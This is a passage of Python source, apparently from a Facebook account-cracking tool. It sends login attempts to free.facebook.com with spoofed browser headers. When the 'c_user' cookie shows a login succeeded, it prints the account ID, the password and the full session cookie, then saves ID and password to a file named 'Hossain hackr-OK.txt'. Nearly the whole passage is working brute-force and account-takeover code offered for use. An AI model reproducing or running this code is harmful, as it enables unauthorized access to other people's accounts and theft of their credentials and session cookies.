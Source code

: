             "pass":ps,

            "login":"Log In"}

            header_freefb = {"authority": 'free.facebook.com',

            "method": 'GET',

            "scheme": 'https',

            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',

            "accept-encoding": 'gzip, deflate, br',

            "accept-language": 'en-US,en;q=1',

            'cache-control': 'no-cache, no-store, must-revalidate',

            "referer": 'https://t.facebook.com/',

            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',

            "sec-ch-ua-mobile": '?1',

            "sec-ch-ua-platform": "Windows",

            "sec-fetch-dest": 'document',

            "sec-fetch-mode": 'navigate',

            "sec-fetch-site": 'same-origin',

            "sec-fetch-user": '?0',

            "pragma": 'no-cache',

            "priority": 'u=0',

            'cross-origin-resource-policy': 'cross-origin',

            "upgrade-insecure-requests": '1',

            "user-agent": pro}

            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[7:22]

                print('    \033[1;32m[Hossain hackr-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')

                cek_apk(session,coki)

                open('/sdcard/Hossain hackr-OK.txt', 'a').write( cid+' | '+ps+'\n')

                oks.append(cid)
